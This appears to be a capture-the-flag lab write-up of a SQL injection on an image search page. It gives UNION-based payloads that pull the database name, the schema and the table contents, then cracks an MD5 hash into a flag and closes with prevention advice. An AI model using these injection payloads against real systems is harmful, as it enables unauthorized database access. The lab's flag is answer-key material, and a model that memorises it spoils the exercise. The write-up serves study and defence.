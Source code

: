 # SQL Injection: Image Search Page Vulnerability

## Overview

A SQL Injection vulnerability on the Image Search page, allows attackers extract database details and sensitive content.

---

## Discovery & Exploitation

### 1. Confirm the Vulnerability
- Enter `1 OR TRUE` in the image ID input field.
- Result: All 5 images are displayed, confirming SQL injection.

### 2. Extract DB Info
- Enter `-1 union select database(), user()` in the ID field.
- Result:  
  - **ID:** -1 union select database(), user()  
  - **Title:** borntosec@localhost  
  - **Url:** Member_images

### 3. Enumerate Structure
- Enter `-1 UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_schema=database() --` in the ID field.
- Result: Reveals table/column names, e.g.:  
  `list_images (id, url, title, comment)`

### 4. Dump Table Data
- Enter `-1 UNION SELECT concat(id, url), concat(title,comment) FROM list_images --` in the ID field.
- Result: Shows all image data, including a challenge.

---

## Challenge: Crack the Flag

- **Extracted MD5 hash:** `1928e8083cf461a51303633093573c46`
- **How to decode:**  
  Use online services like [dcode.fr](https://www.dcode.fr/md5-hash) or [crackstation.net](https://crackstation.net) to look up or crack MD5 hashes.

- **MD5 decrypted:** `albatroz`  
- **Convert to lowercase:** `albatroz`  
- **Get SHA256:**

    ```bash
    echo -n 'albatroz' | sha256sum
    ```

- **Flag:**  
  `ec3b5d84b7a7a7a2e9c1f4f29e049b0b2e1e3c758e5a7f6d6f313c1a0755a79c`

---

## Prevention

1. **Parameterized Queries**
    ```php
    $stmt = $db->prepare("SELECT * FROM list_images WHERE id = ?");
    $stmt->bind_param("i", $id);
    ```
2. **Input Validation**
    ```php
    if (!is_numeric($id)) { exit("Invalid input"); }
    ```
3. **Database Security**
    - Use least-privilege accounts
    - Suppress detailed error messages
    - Monitor DB activity

4. **Web Application Firewall**
    - Deploy a WAF to block known attack patterns

5. **Regular Security Testing**
    - Conduct routine scans and penetration tests

---

> Even basic input validation failures can lead to total database compromise. Always validate and sanitize user input.